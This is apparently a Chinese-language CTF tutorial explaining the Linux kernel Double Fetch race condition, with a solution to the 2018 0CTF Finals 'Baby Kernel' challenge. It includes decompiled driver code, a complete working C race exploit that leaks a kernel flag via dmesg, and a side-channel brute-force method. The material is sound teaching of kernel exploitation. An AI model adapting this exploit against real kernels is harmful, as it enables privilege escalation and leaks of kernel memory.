

# Double Fetch
## 概述
`Double Fetch` 從漏洞原理上屬於條件競爭漏洞，是一種內核態與用戶態之間的數據訪問競爭。

在 Linux 等現代操作系統中，虛擬內存地址通常被劃分爲內核空間和用戶空間。內核空間負責運行內核代碼、驅動模塊代碼等，權限較高。而用戶空間運行用戶代碼，並通過系統調用進入內核完成相關功能。通常情況下，用戶空間向內核傳遞數據時，內核先通過通過 `copy_from_user ` 等拷貝函數將用戶數據拷貝至內核空間進行校驗及相關處理，但在輸入數據較爲複雜時，內核可能只引用其指針，而將數據暫時保存在用戶空間進行後續處理。此時，該數據存在被其他惡意線程篡改風險，造成內核驗證通過數據與實際使用數據不一致，導致內核代碼執行異常。

一個典型的 `Double Fetch`  漏洞原理如下圖所示，一個用戶態線程準備數據並通過系統調用進入內核，該數據在內核中有兩次被取用，內核第一次取用數據進行安全檢查（如緩衝區大小、指針可用性等），當檢查通過後內核第二次取用數據進行實際處理。而在兩次取用數據之間，另一個用戶態線程可創造條件競爭，對已通過檢查的用戶態數據進行篡改，在真實使用時造成訪問越界或緩衝區溢出，最終導致內核崩潰或權限提升。




## 2018 0CTF Finals Baby Kernel

### 題目分析

首先用 IDA 對驅動文件進行分析，可見 flag 是硬編碼在驅動文件中的。

```c
.data:0000000000000480 flag            dq offset aFlagThisWillBe
.data:0000000000000480                                         ; DATA XREF: baby_ioctl+2A↑r
.data:0000000000000480                                         ; baby_ioctl+DB↑r ...
.data:0000000000000480                                         ; "flag{THIS_WILL_BE_YOUR_FLAG_1234}"
.data:0000000000000488                 align 20h
```

驅動主要註冊了一個 `baby_ioctl`  函數，其中包含兩個功能。當 ioctl 中 cmd 參數爲 0x6666 時，驅動將輸出flag 的加載地址。當 ioctl 中 cmd 參數爲 0x1337 時，首先進行三個校驗，接着對用戶輸入的內容與硬編碼的 flag 進行逐字節比較，當一致時通過 `printk` 將 flag 輸出出來。

```c
signed __int64 __fastcall baby_ioctl(__int64 a1, attr *a2)
{
  attr *v2; // rdx
  signed __int64 result; // rax
  int i; // [rsp-5Ch] [rbp-5Ch]
  attr *v5; // [rsp-58h] [rbp-58h]

  _fentry__(a1, a2);
  v5 = v2;
  if ( (_DWORD)a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    result = 0LL;
  }
  else if ( (_DWORD)a2 == 0x1337
         && !_chk_range_not_ok((__int64)v2, 16LL, *(_QWORD *)(__readgsqword((unsigned __int64)&current_task) + 4952))
         && !_chk_range_not_ok(
               v5->flag_str,
               SLODWORD(v5->flag_len),
               *(_QWORD *)(__readgsqword((unsigned __int64)&current_task) + 4952))
         && LODWORD(v5->flag_len) == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( *(_BYTE *)(v5->flag_str + i) != flag[i] )
        return 0x16LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    result = 0LL;
  }
  else
  {
    result = 0xELL;
  }
  return result;
}
```

而分析其檢查函數，其中 `_chk_range_not_ok` 爲檢查指針及長度範圍是否指向用戶空間。通過對驅動文件功能的分析，可以得到用戶輸入的數據結構體如下：

```
00000000 attr            struc ; (sizeof=0x10, mappedto_3)
00000000 flag_str        dq ?
00000008 flag_len        dq ?
00000010 attr            ends
```

其檢查內容爲：

1. 輸入的數據指針是否爲用戶態數據。
2. 數據指針內flag\_str是否指向用戶態。
3. 據指針內flag\_len是否等於硬編碼flag的長度。

### 解題思路
根據 `Double Fetch` 漏洞原理，發現此題目存在一個 `Double Fetch` 漏洞，當用戶輸入數據通過驗證後，再將 `flag_str` 所指向的地址改爲 flag 硬編碼地址後，即會輸出 flag 內容。

首先，利用提供的 `cmd=0x6666` 功能，獲取內核中 flag 的加載地址。

> 內核中以 `printk` 輸出的內容，可以通過 `dmesg` 命令查看。

然後，構造符合 `cmd=0x1337` 功能的數據結構，其中 `flag_len` 可以從硬編碼中直接獲取爲 33， `flag_str` 指向一個用戶空間地址。

最後，創建一個惡意線程，不斷的將 `flag_str` 所指向的用戶態地址修改爲 flag 的內核地址以製造競爭條件，從而使其通過驅動中的逐字節比較檢查，輸出 flag 內容。

### Exploit
```c
// gcc -static exp.c -lpthread -o exp
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000  //碰撞次數
#define LEN 0x1000

struct attr
{
    char *flag;
    size_t len;
};
unsigned long long addr;
int finish =0;
char buf[LEN+1]={0};
//線程函數，不斷修改flag指向的地址爲內核中flag地址
void change_attr_value(void *s){
    struct attr * s1 = s; 
    while(finish==0){
    s1->flag = addr;
    }
}

int main(void)
{
    int addr_fd;
    char *idx;
    int fd = open("/dev/baby",0);
    int ret = ioctl(fd,0x6666);    
    pthread_t t1;
    struct attr t;
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);   
	//獲取內核硬編碼的flag地址
    system("dmesg > /tmp/record.txt");
    addr_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(addr_fd,-LEN,SEEK_END);
    read(addr_fd,buf,LEN);
    close(addr_fd);
    idx = strstr(buf,"Your flag is at ");
    if (idx == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        idx+=16;
        addr = strtoull(idx,idx+16,16);
        printf("[+]flag addr: %p\n",addr);
    }
	//構造attr數據結構
    t.len = 33;
    t.flag = buf;
    //新建惡意線程
    pthread_create(&t1, NULL, change_attr_value,&t);
    for(int i=0;i<TRYTIME;i++){
        ret = ioctl(fd, 0x1337, &t);
        t.flag = buf;
    }
    finish = 1;
    pthread_join(t1, NULL);
    close(fd);
    puts("[+]result is :");
    system("dmesg | grep flag");
    return 0;
}
```

### 其他
此題在環境配置時，有幾點需要注意。

首先， 需關閉 `dmesg_restrict` ，否則無法查看 `printk` 信息，具體操作是在啓動腳本中加入：

```bash
echo 0 > /proc/sys/kernel/dmesg_restrict
```

其次，配置 QEMU 啓動參數時， 不要開啓 `SMAP` 保護，否則在內核中直接訪問用戶態數據會引起 `kerne panic` 。

還有，配置 QEMU 啓動參數時，需要配置爲非單核單線程啓動，否則無法觸發題目中的競爭條件。具體操作是在啓動參數中增加其內核數選項，如：

```bash
-smp 2,cores=2,threads=1  \
```

> 在啓動後，可通過 `/proc/cpuinfo` 查看當前運行的內核數及超線程數。

最後，此題存在一種側信道攻擊的非預期解法：

>由於是 flag 是硬編碼的，並且是檢查方法是逐字節比較，因此可以逐字節爆破來得到 flag。
>
>方法是將待爆破的字節放在 mmap 申請的內存頁末位，此時下一字節位於不可讀寫的用戶態空間。當得到正確的一字節時，內核會比較用戶空間內下一個字節的正確性，由於該地址是不可讀的，將導致 `kernel panic`，從而可以判斷是否爆破的一個字節正確。

## Reference
https://www.usenix.org/conference/usenixsecurity17/technical-sessions/presentation/wang-pengfei

https://veritas501.space/2018/06/04/0CTF%20final%20baby%20kernel/

http://p4nda.top/2018/07/20/0ctf-baby/

https://www.freebuf.com/articles/system/156485.html


